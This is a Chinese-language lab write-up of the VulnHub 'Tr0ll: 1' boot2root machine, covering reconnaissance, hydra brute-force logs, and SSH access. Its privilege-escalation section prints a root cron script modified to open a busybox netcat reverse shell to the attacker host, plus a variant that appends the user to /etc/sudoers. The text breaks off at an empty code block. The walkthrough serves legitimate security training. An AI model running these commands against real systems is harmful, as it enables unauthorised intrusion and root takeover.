

# Tr0ll: 1

作为一名oscp+的持有者打这台靶机都坎坎坷坷的，让我意识到持续学习的重要性，不过这次没通关主要还是在那两个troll方面吃的亏，虽然有一个运气好想到了，但另一个就没想出来，说明见识太少了，最终还是靠别人的wp才知道怎么回事。现在来解释一下什么是troll？在boot2root中你可以理解为虚假的线索或具有双重含义的线索。我认为本台靶机的troll对没打过ctf的人来说，多少有点吃亏。

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p21,22,80 -sCV -Pn 10.0.0.130 -T5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 21:21 EDT
Nmap scan report for 10.0.0.130
Host is up (0.00078s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.0.0.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|   256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
|_  256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/secret
MAC Address: 00:0C:29:D8:FD:21 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.94 seconds
```


## Lol.pcap

在21端口处发现lol.pcap文件。可以选择使用wireshark打开，但是使用strings命令也不影响最终结果。


总之，这是一段有关FTP协议的流量，具体实现就是远程打开一个名为`secret_stuff.txt`文本文件，文件内容中有个词值得注意那就是`sup3rs3cr3tdirlol`，我看其中有`dir`字符，尝试将它视为隐藏目录名称。


## Curl

尝试访问目录`sup3rs3cr3tdirlol`。


我们可以利用工具html2text美化curl输出结果。


尝试下载并测试未知文件`roflmao`。


## Roflmao

首先使用file命令识别该文件的文件类型。


尝试工具exiftool后没有发现有价值的信息，于是直接赋执行权限，然后执行看结果。程序执行后返回`Find address 0x0856BF to proceed`，说实话一开始我以为这会跟二进制逆向或者缓冲区溢出有关，然而这里是一个troll。



使用strings命令后也没发现突破口，我不会用gdb调试器因此没有进一步分析，但是打完后我看别人的[wp](https://devl00p.github.io/posts/Solution-du-CTF-Tr0ll/)得知这个地方只运行了一个printf函数，并打印了一段`Find address 0x0856BF to proceed`。


使用金山翻译，还是没明白这段字符想表达什么，这时脑子还是偏向缓冲区溢出。可是我打过缓冲区溢出的靶机，有一种直觉告诉我这绝不是缓冲区溢出，但这又是什么呢？


好吧，这个时候必须承认：我迷路了！因此，我开始从头开始信息收集，甚至使用默认凭据爆破ssh和ftp，但是什么也没得到，感觉brain像被fuck了一样，在苦恼了几小时后决定使用Gemini为我提供新思路。说实话这个AI不太行，也许我该使用它的升级版。但是当看到`直接跳转到目标地址`，我瞬间明白了一切，如果你打ctf早在翻译这段字符后就会发现！


## Google

将特殊字符`0x0856BF`作为Web目录访问，发现`good_luck`和`this_folder_contains_the_password`两个目录。


### good_luck

打开目录后有一个名称为which_one_lol.txt的文本文件。根据翻译，文件名称可以理解为`哪个哈哈`，这个我并没有在意，可能只是作者的恶作剧。


打开which_one_lol.txt会出现如下字符，它们或许是用户名、密码、web目录、web文件。


### this_folder_contains_the_password

打开目录后有一个名称为Pass.txt的文本文件。注意，这个文件名没啥好翻译的，但是这个目录名要重点关注一下，因为它是破局的关键。经过翻译目录名应该理解为`此文件夹包含密码`。


打开Pass.txt会出现如下字符，一眼万年，我真的认为这就是某位用户的密码！


## Ffuf

将which_one_lol.txt制作字典用于Web方向的测试。

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ cat ./names.txt           
maleus
ps-aux
felux
Eagle11
genphlux
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

### dir

首先在根目录下测试，没有任何结果。

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ ffuf -c -w ./names.txt:WORD -u http://10.0.0.130/WORD

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.0.130/WORD
 :: Wordlist         : WORD: /home/kali/Vulnhub/Tr0ll-1/names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

:: Progress: [12/12] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

然后在secret目录下测试，仍然没有结果。关于secret目录哪里来的就不要反问我了，应该问问自己有没有亲自动手实践！

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ ffuf -c -w ./names.txt:WORD -u http://10.0.0.130/secret/WORD

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.0.130/secret/WORD
 :: Wordlist         : WORD: /home/kali/Vulnhub/Tr0ll-1/names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

:: Progress: [12/12] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

### file

关于Web文件测试一般用.txt、.html、.php这三类即可。

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ cat ./extensions.txt   
.txt
.html
.php
.pdf
.jpg                                       
```

经过测试在Web根目录和secret目录下均未找到有用的Web文件。

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ ffuf -c -w ./names.txt:WORD -w ./extensions.txt:EXT -u http://10.0.0.130/secret/WORDEXT

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.0.130/secret/WORDEXT
 :: Wordlist         : WORD: /home/kali/Vulnhub/Tr0ll-1/names.txt
 :: Wordlist         : EXT: /home/kali/Vulnhub/Tr0ll-1/extensions.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 51117, Words: 127, Lines: 245, Duration: 1ms]
    * EXT: .jpg
    * WORD: troll

:: Progress: [72/72] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

```


## Hydra

制作用户字典。注意，我将`genphlux < -- Definitely not this one`一行保留，把`genphlux`作为单独一行，这个思路是我打完后在别人的[wp](https://leonjza.github.io/blog/2014/08/15/taming-the-troll/)上了解到的。

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ cat users.txt
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
genphlux
```

制作密码字典。其实就是将users.txt中加上`Good_job_:)`。

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ cat Pass.txt
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
genphlux
Good_job_:)
```

### ftp

尝试对21端口进行爆破，但是用户字典中没有任何ftp登录用户。

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ hydra -vV -t 6 -f -e ns -L ./users.txt -P ./Pass.txt ftp://10.0.0.130 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-25 02:12:03
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 6 tasks per 1 server, overall 6 tasks, 154 login tries (l:11/p:14), ~26 tries per task
[DATA] attacking ftp://10.0.0.130:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "maleus" - 1 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "" - 2 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "ps-aux" - 4 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "felux" - 5 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "Eagle11" - 6 of 154 [child 4] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "genphlux < -- Definitely not this one" - 7 of 154 [child 5] (0/0)
[INFO] user maleus does not exist, skipping
[INFO] user maleus does not exist, skipping
[INFO] user maleus does not exist, skipping
[INFO] user maleus does not exist, skipping
[INFO] user maleus does not exist, skipping
[INFO] user maleus does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "ps-aux" - 15 of 154 [child 5] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "" - 16 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "maleus" - 17 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "felux" - 19 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "Eagle11" - 20 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "genphlux < -- Definitely not this one" - 21 of 154 [child 4] (0/0)
[INFO] user ps-aux does not exist, skipping
[INFO] user ps-aux does not exist, skipping
[INFO] user ps-aux does not exist, skipping
[INFO] user ps-aux does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "felux" - pass "felux" - 29 of 154 [child 5] (0/0)
[INFO] user ps-aux does not exist, skipping
[INFO] user ps-aux does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "felux" - pass "" - 30 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "felux" - pass "maleus" - 31 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "felux" - pass "ps-aux" - 32 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "felux" - pass "Eagle11" - 34 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "felux" - pass "genphlux < -- Definitely not this one" - 35 of 154 [child 4] (0/0)
[INFO] user felux does not exist, skipping
[INFO] user felux does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "Eagle11" - pass "Eagle11" - 43 of 154 [child 5] (0/0)
[ATTEMPT] target 10.0.0.130 - login "Eagle11" - pass "" - 44 of 154 [child 1] (0/0)
[INFO] user felux does not exist, skipping
[INFO] user felux does not exist, skipping
[INFO] user felux does not exist, skipping
[INFO] user felux does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "Eagle11" - pass "maleus" - 45 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "Eagle11" - pass "ps-aux" - 46 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "Eagle11" - pass "felux" - 47 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "Eagle11" - pass "genphlux < -- Definitely not this one" - 49 of 154 [child 4] (0/0)
[INFO] user Eagle11 does not exist, skipping
[INFO] user Eagle11 does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "genphlux < -- Definitely not this one" - pass "genphlux < -- Definitely not this one" - 57 of 154 [child 5] (0/0)
[INFO] user Eagle11 does not exist, skipping
[INFO] user Eagle11 does not exist, skipping
[INFO] user Eagle11 does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "genphlux < -- Definitely not this one" - pass "" - 58 of 154 [child 1] (0/0)
[INFO] user Eagle11 does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "genphlux < -- Definitely not this one" - pass "maleus" - 59 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "genphlux < -- Definitely not this one" - pass "ps-aux" - 60 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "genphlux < -- Definitely not this one" - pass "felux" - 61 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "genphlux < -- Definitely not this one" - pass "Eagle11" - 62 of 154 [child 4] (0/0)
[INFO] user genphlux < -- Definitely not this one does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "usmc8892" - pass "usmc8892" - 71 of 154 [child 5] (0/0)
[INFO] user genphlux < -- Definitely not this one does not exist, skipping
[INFO] user genphlux < -- Definitely not this one does not exist, skipping
[INFO] user genphlux < -- Definitely not this one does not exist, skipping
[INFO] user genphlux < -- Definitely not this one does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "usmc8892" - pass "" - 72 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "usmc8892" - pass "maleus" - 73 of 154 [child 1] (0/0)
[INFO] user genphlux < -- Definitely not this one does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "usmc8892" - pass "ps-aux" - 74 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "usmc8892" - pass "felux" - 75 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "usmc8892" - pass "Eagle11" - 76 of 154 [child 4] (0/0)
[INFO] user usmc8892 does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "blawrg" - pass "blawrg" - 85 of 154 [child 5] (0/0)
[INFO] user usmc8892 does not exist, skipping
[INFO] user usmc8892 does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "blawrg" - pass "" - 86 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "blawrg" - pass "maleus" - 87 of 154 [child 1] (0/0)
[INFO] user usmc8892 does not exist, skipping
[INFO] user usmc8892 does not exist, skipping
[INFO] user usmc8892 does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "blawrg" - pass "ps-aux" - 88 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "blawrg" - pass "felux" - 89 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "blawrg" - pass "Eagle11" - 90 of 154 [child 4] (0/0)
[INFO] user blawrg does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "wytshadow" - pass "wytshadow" - 99 of 154 [child 5] (0/0)
[INFO] user blawrg does not exist, skipping
[INFO] user blawrg does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "wytshadow" - pass "" - 100 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "wytshadow" - pass "maleus" - 101 of 154 [child 1] (0/0)
[INFO] user blawrg does not exist, skipping
[INFO] user blawrg does not exist, skipping
[INFO] user blawrg does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "wytshadow" - pass "ps-aux" - 102 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "wytshadow" - pass "felux" - 103 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "wytshadow" - pass "Eagle11" - 104 of 154 [child 4] (0/0)
[INFO] user wytshadow does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "vis1t0r" - pass "vis1t0r" - 113 of 154 [child 5] (0/0)
[INFO] user wytshadow does not exist, skipping
[INFO] user wytshadow does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "vis1t0r" - pass "" - 114 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "vis1t0r" - pass "maleus" - 115 of 154 [child 1] (0/0)
[INFO] user wytshadow does not exist, skipping
[INFO] user wytshadow does not exist, skipping
[INFO] user wytshadow does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "vis1t0r" - pass "ps-aux" - 116 of 154 [child 4] (0/0)
[ATTEMPT] target 10.0.0.130 - login "vis1t0r" - pass "felux" - 117 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "vis1t0r" - pass "Eagle11" - 118 of 154 [child 3] (0/0)
[INFO] user vis1t0r does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "overflow" - pass "overflow" - 127 of 154 [child 5] (0/0)
[INFO] user vis1t0r does not exist, skipping
[INFO] user vis1t0r does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "overflow" - pass "" - 128 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "overflow" - pass "maleus" - 129 of 154 [child 1] (0/0)
[INFO] user vis1t0r does not exist, skipping
[INFO] user vis1t0r does not exist, skipping
[INFO] user vis1t0r does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "overflow" - pass "ps-aux" - 130 of 154 [child 4] (0/0)
[ATTEMPT] target 10.0.0.130 - login "overflow" - pass "felux" - 131 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "overflow" - pass "Eagle11" - 132 of 154 [child 3] (0/0)
[INFO] user overflow does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "genphlux" - pass "genphlux" - 141 of 154 [child 5] (0/0)
[INFO] user overflow does not exist, skipping
[INFO] user overflow does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "genphlux" - pass "" - 142 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "genphlux" - pass "maleus" - 143 of 154 [child 1] (0/0)
[INFO] user overflow does not exist, skipping
[INFO] user overflow does not exist, skipping
[INFO] user overflow does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "genphlux" - pass "ps-aux" - 144 of 154 [child 4] (0/0)
[ATTEMPT] target 10.0.0.130 - login "genphlux" - pass "felux" - 145 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "genphlux" - pass "Eagle11" - 146 of 154 [child 3] (0/0)
[INFO] user genphlux does not exist, skipping
[STATUS] attack finished for 10.0.0.130 (waiting for children to complete tests)
[INFO] user genphlux does not exist, skipping
[INFO] user genphlux does not exist, skipping
[INFO] user genphlux does not exist, skipping
[INFO] user genphlux does not exist, skipping
[INFO] user genphlux does not exist, skipping
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-25 02:12:19
```

### ssh

在爆破前，你可能会注意这里有个ssh用户名枚举的漏洞，就在nmap 扫描结果那里。通过这个漏洞我确认which_one_lol.txt里面的10个用户名是真实存在的，甚至我猜的`troll`也是存在的，拿到ssh shell 后也证实了这些。


尝试对22端口进行爆破。这里出现爆破受阻的现象，通过打完后看别人的[wp](https://devl00p.github.io/posts/Solution-du-CTF-Tr0ll/)了解到目标存在[fail2ban](https://github.com/fail2ban/fail2ban)。然后又通过测试发现不能多个用户名并发爆破，即使用hydra -W选项也没什么用，但是接受一次爆破一个用户。 当然，可以使用hydra -R ,等待22端口重新恢复连接。

```ssh
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ hydra -vV -t 6 -f -e ns -L ./users.txt -P ./Pass.txt ssh://10.0.0.130
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-25 02:14:13
[DATA] max 6 tasks per 1 server, overall 6 tasks, 154 login tries (l:11/p:14), ~26 tries per task
[DATA] attacking ssh://10.0.0.130:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://maleus@10.0.0.130:22
[INFO] Successful, password authentication is supported by ssh://10.0.0.130:22
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "maleus" - 1 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "" - 2 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "ps-aux" - 4 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "felux" - 5 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "Eagle11" - 6 of 154 [child 4] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "genphlux < -- Definitely not this one" - 7 of 154 [child 5] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "usmc8892" - 8 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "blawrg" - 9 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "wytshadow" - 10 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "vis1t0r" - 11 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "overflow" - 12 of 154 [child 4] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "genphlux" - 13 of 154 [child 5] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "Good_job_:)" - 14 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "ps-aux" - 15 of 154 [child 4] (0/0)
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "" - 16 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "maleus" - 17 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "felux" - 19 of 154 [child 3] (0/0)
[VERBOSE] Retrying connection for child 4
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "Eagle11" - 20 of 154 [child 5] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "genphlux < -- Definitely not this one" - 21 of 154 [child 2] (0/0)
[RE-ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "ps-aux" - 21 of 154 [child 4] (0/0)
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 5
[RE-ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "Eagle11" - 21 of 154 [child 5] (0/0)
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 3
[RE-ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "felux" - 21 of 154 [child 3] (0/0)
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 1
[RE-ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "maleus" - 21 of 154 [child 1] (0/0)
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 0
[RE-ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "" - 21 of 154 [child 0] (0/0)
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 2
[RE-ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "genphlux < -- Definitely not this one" - 21 of 154 [child 2] (0/0)
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 5
[RE-ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "Eagle11" - 21 of 154 [child 5] (0/0)
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Disabled child 1 because of too many errors
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Disabled child 3 because of too many errors
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Disabled child 2 because of too many errors
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Disabled child 4 because of too many errors
^C[ERROR] Received signal 2, going down ...
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

经过长时间等待，居然没有爆破出一个有效的凭据，于是我将`Good_job_:)`手动变形继续尝试，可惜未果。

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ cat good.txt 
Good_job_:)
G0od_job_:)
G00d_job_:)
G00d_j0b_:)
Go0d_job_:)
Go0d_j0b_:)
Good_j0b_:)
G0od_j0b_:)
Good_job_:)123
Good_job_:)1
1Good_job_:)
good_job_:)
Good_job_:)!
^Good_job_:)
```

我将10个用户名和troll配合rockyou.txt、fastcrack.txt一起爆破了一段时间也没有任何结果。好吧，这里我再一次迷路了，询问AI也无果，在过了两三天后我忍不住看别人的wp，才发现这里又是一个troll。


让我们回到`0x0856BF`目录上，请仔细观察子目录`this_folder_contains_the_password`，如果你打ctf或许在那时就会嘲笑我，这么明显的提示都看不出来。是的，目录里的文件名`Pass.txt`也可以作为一个密码，让我们配合hydra -R继续尝试！

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ hydra -W 10 -vV -t 1 -f -L ./users.txt -p 'Pass.txt' ssh://10.0.0.130
```


成功get ssh shell，取得一个立足点。但是每过5分钟会断开一次，相当难受！


造成我们难受的原因就是/opt/lmao.py。


而且是每5分钟难受一次。


顺便看看令人讨厌的fail2ban。


## Crontab Privilege Escalation

当前用户overflow的可写文件如下。

```bash
overflow@troll:/$ find / -type f -writable 2>/dev/null | grep -ivE "/proc|/sys"
/srv/ftp/lol.pcap
/var/tmp/cleaner.py.swp
/var/www/html/sup3rs3cr3tdirlol/roflmao
/var/log/cronlog
/lib/log/cleaner.py
```

查看cleaner.py的文件内容。

```bash
overflow@troll:/dev/shm$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

### pspy

使用pspy前首先查看目标的系统架构。

```bash
overflow@troll:/dev/shm$ uname -a
Linux troll 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 athlon i686 GNU/Linux
```

使用wget传输并执行pspy32。

```bash
overflow@troll:/dev/shm$ wget http://10.0.0.129/pspy32
--2025-08-25 01:01:29--  http://10.0.0.129/pspy32
Connecting to 10.0.0.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2940928 (2.8M) [application/octet-stream]
Saving to: ‘pspy32’

100%[================================================================================================================================================================================>] 2,940,928   --.-K/s   in 0.1s    

2025-08-25 01:01:29 (24.6 MB/s) - ‘pspy32’ saved [2940928/2940928]

overflow@troll:/dev/shm$ ls -al
total 2872
drwxrwxrwt  2 root     root          60 Aug 25 01:01 .
drwxr-xr-x 20 root     root         620 Aug 25 01:00 ..
-rw-rw-r--  1 overflow overflow 2940928 Aug 21 07:52 pspy32
```


通过pspy确认cleaner.py为root权限执行的定时任务文件。


### cronlog

除了通过pspy发现cleaner.py是定时任务文件，还可以通过查看/var/log/cronlog文件发现，并且得知循环时间为2min。

```bash
overflow@troll:/$ ls -al /var/log/cronlog
-rwxrwxrwx 1 root root 23 Aug 13  2014 /var/log/cronlog
overflow@troll:/$ cat /var/log/cronlog
*/2 * * * * cleaner.py
```

### exploit

发现提权向量后，在此我提供如下三种利用方式：

- busybox反弹shell

```bash
overflow@troll:/dev/shm$ cat /lib/log/cleaner.py
cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('busybox nc 10.0.0.129 443 -e /bin/bash')
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
overflow@troll:/dev/shm$
```

- 修改/etc/sudoers文件

```bash
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('echo "overflow ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```

- gcc编译suid程序

简单getroot程序源码如下，当然还存在其它复杂[getroot源码](https://gist.github.com/binyuj/811aed22a079bda8145ed6d4742c3ec9)。

```c
